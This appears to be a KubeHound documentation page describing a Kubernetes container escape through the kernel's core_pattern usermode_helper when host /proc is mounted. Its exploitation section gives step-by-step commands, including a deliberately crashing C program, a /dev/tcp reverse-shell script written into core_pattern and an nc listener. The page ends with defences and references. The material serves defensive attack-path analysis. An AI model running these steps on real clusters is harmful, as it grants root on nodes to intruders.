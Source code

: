 <!--
id: CE_UMH_CORE_PATTERN
name: "Container escape: through core_pattern usermode_helper"
mitreAttackTechnique: T1611 - Escape to host
mitreAttackTactic: TA0004 - Privilege escalation
-->

# CE_UMH_CORE_PATTERN

Container escape via the `core_pattern` `usermode_helper` in the case of an exposed `/proc` mount.

| Source                                    | Destination                           | MITRE                            |
| ----------------------------------------- | ------------------------------------- |----------------------------------|
| [Container](../entities/container.md) | [Node](../entities/node.md) | [Escape to Host, T1611](https://attack.mitre.org/techniques/T1611/) |

## Details

[/proc/sys/kernel/core_pattern](https://man7.org/linux/man-pages/man5/core.5.html) defines a program which is executed on core-file generation (typically a program crash) and is passed the core file as standard input if the first character of this file is a pipe symbol `|`. This program is run by the root user and will allow up to 128 bytes of command line arguments. Attacker control of this progam would allow trivial code execution within the container host given any crash and core file generation (which can be simply discarded during a myriad of malicious actions). With write access to the host `/proc` directory and no additional privileges, an attacker can abuse this to escape a container and gain root on the containing K8s node.

## Prerequisites

Execution within a container process with the host `/proc/sys/kernel` (or any parent directory) mounted inside the container.

See the [example pod spec](https://github.com/DataDog/KubeHound/tree/main/test/setup/test-cluster/attacks/CE_UMH_CORE_PATTERN.yaml).

## Checks

Determine mounted volumes within the container as per [VOLUME_DISCOVER](./VOLUME_DISCOVER.md#checks). If the host `/proc/sys/kernel` (or any parent directory) is mounted, this attack will be possible. Example below.

```bash
$ cat /proc/self/mounts

...
proc /hostproc proc rw,nosuid,nodev,noexec,relatime 0 0
...
```

## Exploitation

First find the path of the container’s filesystem on the host. This can be done by retrieving the current mounts (see [VOLUME_DISCOVER](./VOLUME_DISCOVER.md#checks)). Looks for the `upperdir` value of the overlayfs entry associated with containerd:

```bash
$ cat /proc/mounts
...
overlay / overlay rw,relatime,lowerdir=/var/lib/containerd/io.containerd.snapshotter.v1.overlayfs/snapshots/27/fs,upperdir=/var/lib/containerd/io.containerd.snapshotter.v1.overlayfs/snapshots/71/fs,workdir=/var/lib/containerd/io.containerd.snapshotter.v1.overlayfs/snapshots/71/work 0 0
...

# Store path in a variable for future use
$ OVERLAY_PATH=/var/lib/containerd/io.containerd.snapshotter.v1.overlayfs/snapshots/71/fs
```

Oneliner alternative:

```bash
export OVERLAY_PATH=$(cat /proc/mounts | grep -oe upperdir="[^,]*," | cut -d = -f 2 | tr -d , | head -n 1)
```

Next create a mini program that will crash immediately and generate a kernel coredump. For example:

```bash
echo 'int main(void) {
	char buf[1];
	for (int i = 0; i < 100; i++) {
		buf[i] = 1;
	}
	return 0;
}' > /tmp/crash.c 
```

Compile the program and copy the binary into the container as crash:
```bash
apt update && apt install gcc
gcc -o crash /tmp/crash.c
```

Next write a shell script to be triggered inside the container’s file system as `shell.sh`:

```bash
# Reverse shell
REVERSE_IP=$(hostname -I | tr -d " ") && \
echo '#!/bin/sh' > /tmp/shell.sh
echo "sh -i >& /dev/tcp/${REVERSE_IP}/9000 0>&1" >> /tmp/shell.sh && \
chmod a+x /tmp/shell.sh
```

Finally write the `usermode_helper` script path to the `core_pattern` helper path and trigger the container escape:

```bash
cd /sysproc
echo "|$OVERLAY_PATH/tmp/shell.sh" > core_pattern
cd
apt install netcat-traditional
sleep 5 && ./crash & nc -l -vv -p 9000
```

## Defences

### Monitoring

+ Use the Datadog agent to monitor for creation of new `usermode_helper` programs via writes to known locations, in this case `/proc/sys/kernel/core_pattern`.

### Implement security policies

Use a pod security policy or admission controller to prevent or limit the creation of pods with a `hostPath` mount of `/proc` or other sensitive locations.

### Least Privilege

Avoid running containers as the `root` user. Enforce running as an unprivileged user account using the `runAsNonRoot` setting inside `securityContext` (or explicitly setting `runAsUser` to an unprivileged user). Additionally, ensure that `allowPrivilegeEscalation: false` is set in `securityContext` to prevent a container running as an unprivileged user from being able to escalate to running as the `root` user.

## Calculation

+ [EscapeUmhCorePattern](https://github.com/DataDog/KubeHound/tree/main/pkg/kubehound/graph/edge/escape_umh_core_pattern.go)

## References:

+ [Compendium Of Container Escapes](https://i.blackhat.com/USA-19/Thursday/us-19-Edwards-Compendium-Of-Container-Escapes-up.pdf)
+ [Sensitive Mounts](https://0xn3va.gitbook.io/cheat-sheets/container/escaping/sensitive-mounts)
+ [Escaping privileged containers for fun](https://pwning.systems/posts/escaping-containers-for-fun/)
